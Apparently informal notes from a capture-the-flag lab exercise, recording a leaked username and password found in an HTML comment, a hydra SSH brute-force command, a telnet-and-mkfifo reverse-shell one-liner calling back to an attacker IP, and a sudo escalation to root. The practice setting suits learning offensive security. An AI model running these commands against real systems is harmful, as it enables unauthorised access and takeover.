 
  <!--

    Note to self, remember username!

    Username: R1ckRul3s
      pass Robots.txt Wubbalubbadubdub
  -->
  Look around the file system for the other ingredient.

  ssh into using 

  hydra -v -V -u -l R1ckRul3s -P ~Desktop/ -t 1 10.10.254.250 ssh
  ^^^
  didntdo that
  got in with reverse shell in command pannel 
  TF=$(mktemp -u);mkfifo $TF && telnet 10.13.2.66 9001 0<$TF | /bin/sh 1>$TF

  sudo -l lists all
  sudo /bin/sh to get root
  all the flags are in fs